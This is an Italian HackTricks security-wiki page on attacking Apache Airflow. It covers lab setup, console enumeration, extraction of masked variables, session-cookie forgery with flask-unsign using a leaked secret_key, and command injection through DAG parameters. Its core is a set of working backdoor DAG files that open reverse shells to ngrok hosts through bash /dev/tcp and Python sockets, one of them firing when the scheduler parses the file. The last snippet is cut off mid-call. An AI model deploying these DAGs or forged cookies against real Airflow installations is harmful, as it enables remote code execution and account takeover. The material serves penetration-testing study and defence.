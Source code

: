 # Sicurezza di Apache Airflow

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

### Informazioni di Base

[**Apache Airflow**](https://airflow.apache.org) funge da piattaforma per **orchestrare e pianificare pipeline di dati o flussi di lavoro**. Il termine "orchestrazione" nel contesto delle pipeline di dati indica il processo di organizzazione, coordinamento e gestione di flussi di lavoro complessi di dati provenienti da varie fonti. Lo scopo principale di queste pipeline di dati orchestrate è fornire set di dati elaborati e utilizzabili. Questi set di dati sono ampiamente utilizzati da una miriade di applicazioni, tra cui, ma non solo, strumenti di business intelligence, modelli di data science e machine learning, tutti fondamentali per il funzionamento delle applicazioni di big data.

Fondamentalmente, Apache Airflow ti permetterà di **pianificare l'esecuzione di codice quando qualcosa** (evento, cron) **accade**.

### Laboratorio Locale

#### Docker-Compose

Puoi utilizzare il **file di configurazione docker-compose da** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) per avviare un ambiente docker completo di apache airflow. (Se sei su MacOS assicurati di dare almeno 6GB di RAM alla VM docker).

#### Minikube

Un modo semplice per **eseguire apache airflow** è farlo **con minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Configurazione di Airflow

Airflow potrebbe memorizzare **informazioni sensibili** nella sua configurazione o potresti trovare configurazioni deboli in atto:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### RBAC di Airflow

Prima di iniziare ad attaccare Airflow, dovresti comprendere **come funzionano i permessi**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacchi

#### Enumerazione della Console Web

Se hai **accesso alla console web**, potresti essere in grado di accedere ad alcune o a tutte le seguenti informazioni:

* **Variabili** (Informazioni sensibili personalizzate potrebbero essere memorizzate qui)
* **Connessioni** (Informazioni sensibili personalizzate potrebbero essere memorizzate qui)
* Accedile in `http://<airflow>/connection/list/`
* [**Configurazione**](./#airflow-configuration) (Informazioni sensibili come il **`secret_key`** e le password potrebbero essere memorizzate qui)
* Elenca **utenti e ruoli**
* **Codice di ogni DAG** (che potrebbe contenere informazioni interessanti)

#### Recupero dei Valori delle Variabili

Le variabili possono essere memorizzate in Airflow in modo che i **DAG** possano **accedere** ai loro valori. È simile ai segreti di altre piattaforme. Se hai **sufficienti permessi**, puoi accedervi nella GUI in `http://<airflow>/variable/list/`.\
Airflow per impostazione predefinita mostrerà il valore della variabile nella GUI, tuttavia, secondo [**questo**](https://marclamberti.com/blog/variables-with-apache-airflow/), è possibile impostare un **elenco di variabili** il cui **valore** apparirà come **asterischi** nella **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Tuttavia, questi **valori** possono ancora essere **recuperati** tramite **CLI** (è necessario avere accesso al DB), esecuzione di **DAG** arbitrari, **API** che accede all'endpoint delle variabili (l'API deve essere attivata) e **anche la GUI stessa!**\
Per accedere a quei valori dalla GUI, basta **selezionare le variabili** che desideri accedere e **cliccare su Azioni -> Esporta**.\
Un altro modo è eseguire un **bruteforce** sul **valore nascosto** utilizzando il **filtro di ricerca** fino a ottenerlo:

![](<../../.gitbook/assets/image (152).png>)

#### Escalation dei Privilegi

Se la configurazione **`expose_config`** è impostata su **True**, dal **ruolo Utente** e **superiore** possono **leggere** la **configurazione nel web**. In questa configurazione, appare il **`secret_key`**, il che significa che qualsiasi utente con questo valido può **creare il proprio cookie firmato per impersonare qualsiasi altro account utente**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE in Airflow worker)

Se hai **accesso in scrittura** al luogo in cui i **DAG vengono salvati**, puoi semplicemente **crearne uno** che ti invierà una **reverse shell.**\
Nota che questa reverse shell verrà eseguita all'interno di un **contenitore worker di airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE nel scheduler di Airflow)

Se imposti qualcosa per essere **eseguito nella radice del codice**, al momento della scrittura di questo documento, verrà **eseguito dal scheduler** dopo un paio di secondi dopo averlo posizionato nella cartella del DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Creazione di DAG

Se riesci a **compromettere una macchina all'interno del cluster DAG**, puoi creare nuovi **script DAG** nella cartella `dags/` e verranno **replicati nel resto delle macchine** all'interno del cluster DAG.

#### Iniezione di Codice DAG

Quando esegui un DAG dalla GUI puoi **passare argomenti** ad esso.\
Pertanto, se il DAG non è codificato correttamente potrebbe essere **vulnerabile all'Iniezione di Comandi.**\
Questo è ciò che è accaduto in questo CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tutto ciò che devi sapere per **iniziare a cercare iniezioni di comandi nei DAG** è che i **parametri** sono **accessibili** con il codice **`dag_run.conf.get("param_name")`**.

Inoltre, la stessa vulnerabilità potrebbe verificarsi con **variabili** (nota che con privilegi sufficienti potresti **controllare il valore delle variabili** nella GUI). Le variabili sono **accessibili con**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Se vengono utilizzati, ad esempio, all'interno di un comando bash, potresti eseguire un'iniezione di comandi.

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
